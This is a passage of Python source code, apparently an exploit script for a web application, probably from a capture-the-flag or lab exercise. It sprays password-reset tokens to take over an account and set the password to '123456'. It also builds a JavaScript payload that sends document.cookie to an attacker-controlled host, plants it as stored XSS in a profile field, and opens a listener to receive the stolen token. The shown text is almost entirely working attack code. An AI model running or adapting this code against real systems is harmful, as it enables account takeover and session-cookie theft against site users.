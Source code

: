 ```py
    f = open("spray.php", "w")
    f.write(payload)
    f.close()
    os.system("php spray.php > seed_list.txt")
    print("[+] Seed list created ! [+]")
    
# Let's spray the token
def sprayToken(rhost):
    print("[+] Let's spray ! [+]")
    url = "http://%s:80/resetpassword.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue
            
# Function to login as the user sprayed
def loginUser(rhost,username):
    print("[+] Let's login with the user: %s !! [+]" %username)
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "%s" %username, "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Logged In ! [+]")
    
# Function to mount the XSS payload
def mountJS(lhost):
    print("[+] Let's build our JS !!! [+]")
    payload = "function send_cookie(){\n"
    payload += "        var req=new XMLHttpRequest();\n"
    payload += "        req.open('GET', 'http://%s:8888/' + document.cookie, true);\n" %lhost
    payload += "        req.send();\n"
    payload += "}\n"
    payload += "send_cookie();"
    f = open("steal.js", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
# Function to set the xss on the right place
def putXSS(rhost,lhost):
    print("[+] Planting the XSS ! [+]")
    url = "http://%s:80/profile.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"description": "<script src=\"http://%s/steal.js\"></script>" %lhost}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Done ! [+]")
    
# Function to way the xss be triggered and get the token
def getToken(lhost):
    print("[+] Listener on port 8888 to receive the token ![+]")
    s = socket.socket()
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((lhost,8888))
```